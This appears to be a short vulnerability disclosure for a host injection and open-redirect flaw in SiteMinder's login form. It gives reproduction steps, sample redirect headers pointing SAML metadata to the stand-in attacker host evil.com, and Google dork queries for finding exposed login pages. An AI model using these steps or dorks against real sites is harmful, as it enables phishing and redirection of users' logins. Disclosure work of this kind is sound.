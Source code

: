 # Host Manipulation Vulnerability

# Overview of the Vulnerability
This vulnerability is capable of injecting contents into the login form in a hidden way (<input type='hidden'), it also adds two reference fields capable of redirecting when performing a successful login.
<br> 
<br> 
                                                                                                
# Step to reproduce:
- On url, change a fields /siteminderagent/forms/login.fcc?TYPE=&REALMOID=&GUID=&SMAUTHREASON=0&METHOD=GET&SMAGENTNAME=&TARGET=-SM- {INJECT DOMAIN}
-  After adding a domain to your request, a new form of hidden type will be created automatically (<input type='hidden') and the following parameters will also be added to the request header:
<br> 
<br> 

```php
Referer: https:// {URL INJECT HERE} /affwebservices/secure/secureredirect/?SPID=https://evil.com/c2c/saml/metadata&SMPORTALURL=v%2FJaQcXcjv8i0itl6jA1r2S8TfHqIfZQoDq7oEUdb5QFATBYY04pvqJppw%2Bhp0fYSZ JogkCgh4WtuU4h7K%2BqsRXj1fSiLP1hcEFrVyXJ68piomV2582unvZkwlhmdLov&SAMLTRANSACTIONID=925291bf-e9f8e8a5-e00625ea-bb9766fe-40f1431d-dd
```
 <br> 
 
```php
Location: https:// {URL INJECT HERE} /affwebservices/secure/secureredirect/?SPID=https://evil.com/c2c/saml/metadata&SMPORTALURL=v%2FJaQcXcjv8i0itl6jA1r2S8TfHqIfZQoDq7oEUdb5QFATBYY04pvqJppw%2Bhp0fYSZJo gkCgh4WtuU4h7K%2BqsRXj1fSiLP1hcEFrVyXJ68piomV2582unvZkwlhmdLov&SAMLTRANSACTIONID=769a0761-7f79e2f5-35c4ace4-b9cccadc-f6d42b71-f
```
<br> 

# Proof of Concept:
## First Redirect (Secure Redirect)
<img src="https://i.imgur.com/jQtU2XL.png">

<br> 
<br> 

## Second Redirect (After Inject)
<img src="https://i.imgur.com/WsVUBw8.png">
<br>  
<br> 

# Google Hacking:
intitle:"SiteMinder Password Services"

inurl:"/siteminderagent/forms/login.fcc"
